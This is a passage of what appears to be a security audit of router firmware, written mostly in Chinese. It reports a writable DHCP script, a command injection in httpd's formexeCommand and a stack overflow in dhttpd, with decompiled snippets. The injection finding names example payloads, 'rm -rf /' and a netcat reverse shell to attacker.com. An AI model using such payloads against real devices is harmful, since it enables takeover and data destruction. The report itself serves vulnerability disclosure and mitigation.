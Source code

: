   ```
  [ "$reloaddns" ] && cfm post netctrl 2?op=17,wan_id=6
  ```
- **关键词：** sample.renew, /etc/resolv_wisp.conf, /etc/resolv.conf, cfm, netctrl
- **备注：** This vulnerability is highly exploitable due to the script's permissions and the privileged context of udhcpc. Further verification could involve checking if udhcpc is configured to use this script and runs as root, but the evidence strongly supports the attack chain. Other files in the directory (e.g., sample.bound, sample.deconfig) have similar permissions and may present additional attack vectors. Recommended mitigation: restrict file permissions to root-only write access and validate script integrity.

---
### Command-Injection-sym.formexeCommand

- **文件/目录路径：** `bin/httpd`
- **位置：** `httpd:0x0007b2b8 sym.formexeCommand`
- **风险评分：** 8.5
- **置信度：** 8.0
- **描述：** 命令注入漏洞存在于 sym.formexeCommand 函数中，允许经过身份验证的攻击者执行任意系统命令。具体表现：函数通过 fcn.0002b884 获取 HTTP 请求中的 'cmdinput' 参数，使用 strcpy 复制到局部缓冲区（大小 256 字节），然后直接用于构造 doSystemCmd 命令（如 'echo %s > /tmp/cmdTmp.txt' 和 '%s > /tmp/cmdTmp.txt'）。由于缺少输入验证、过滤或转义，攻击者可以注入 shell 元字符（如 ;、|、&、`）来执行恶意命令。触发条件：攻击者发送恶意 HTTP 请求到 formexeCommand 端点，包含 crafted 'cmdinput' 参数。约束条件：攻击者需拥有有效登录凭据（非 root 用户），但 httpd 进程可能以 root 权限运行，从而提升权限。潜在攻击和利用方式：注入命令如 'rm -rf /' 删除文件或 'nc -e /bin/sh attacker.com 4444' 启动反向 shell，完全控制设备。相关代码逻辑：用户输入直接传播到 doSystemCmd，无边界检查或验证。
- **代码片段：**
  ```
  // 从 HTTP 请求获取用户输入
  uVar2 = fcn.0002b884(*(puVar5 + (0xdcec | 0xffff0000) + iVar1 + -0xc), iVar4 + *0x7b5a8, iVar4 + *0x7b5ac);
  *(puVar5 + -0xc) = uVar2;
  // 使用 strcpy 复制用户输入到缓冲区
  sym.imp.strcpy(puVar5 + iVar1 + -0x21c, *(puVar5 + -0xc));
  // 调用 doSystemCmd 执行命令，用户输入直接嵌入
  sym.imp.doSystemCmd(iVar4 + *0x7b5c0, puVar5 + iVar1 + -0x21c); // 例如: 'echo %s > /tmp/cmdTmp.txt'
  sym.imp.doSystemCmd(iVar4 + *0x7b5c4, puVar5 + iVar1 + -0x21c); // 例如: '%s > /tmp/cmdTmp.txt'
  ```
- **关键词：** HTTP 参数: cmdinput, 文件路径: /tmp/cmdTmp.txt, 函数符号: sym.formexeCommand, sym.imp.doSystemCmd, fcn.0002b884, IPC 套接字: 未识别具体路径，但涉及 send_msg_to_netctrl 调用
- **备注：** 漏洞已验证通过代码分析：用户输入从 HTTP 参数直接传播到 doSystemCmd，无中间验证。攻击链完整且可重现。建议检查其他 doSystemCmd 调用点（如 sym.formSetClientState）是否有类似问题。后续分析应关注输入验证缺失的组件交互，特别是通过 NVRAM 或 IPC 的数据流。

---
### buffer-overflow-sym.formGetWanErrerCheck

- **文件/目录路径：** `bin/dhttpd`
- **位置：** `bin:0x00034b3c sym.formGetWanErrerCheck (GetValue call for 'lan.ip'), bin:0x00034b90 sym.formGetWanErrerCheck (GetValue call for 'd.lan.ip')`
- **风险评分：** 8.0
- **置信度：** 9.0
- **描述：** 该函数在处理 NVRAM 变量 'lan.ip' 和 'd.lan.ip' 时存在缓冲区溢出漏洞。函数使用 GetValue 将变量值复制到固定大小的栈缓冲区（16 字节），但未进行大小验证。攻击者可通过设置这些变量为超过 16 字节的字符串来溢出缓冲区，覆盖相邻栈数据（包括返回地址），从而实现任意代码执行。触发条件包括：攻击者拥有有效登录凭据，可访问 web 接口并设置 NVRAM 变量；当 sym.formGetWanErrerCheck 被调用（例如通过 HTTP CGI 请求）时，漏洞被触发。潜在利用方式包括通过溢出控制程序流，执行 shellcode 或提升权限。
- **代码片段：**
  ```
  0x00034b3c      0310a0e1       mov r1, r3                  ; buffer 's' for GetValue
  0x00034b40      e353ffeb       bl sym.imp.GetValue          ; calls GetValue("lan.ip", buffer)
  ...
  0x00034b8c      0310a0e1       mov r1, r3                  ; same buffer 's' for GetValue
  0x00034b90      cf53ffeb       bl sym.imp.GetValue          ; calls GetValue("d.lan.ip", buffer)
  ; Buffer 's' is initialized to 16 bytes via memset at 0x00034b74:
  0x00034b74      1020a0e3       mov r2, 0x10                ; size 16 bytes
  0x00034b78      c353ffeb       bl sym.imp.memset           ; memset(s, 0, 0x10)
  ```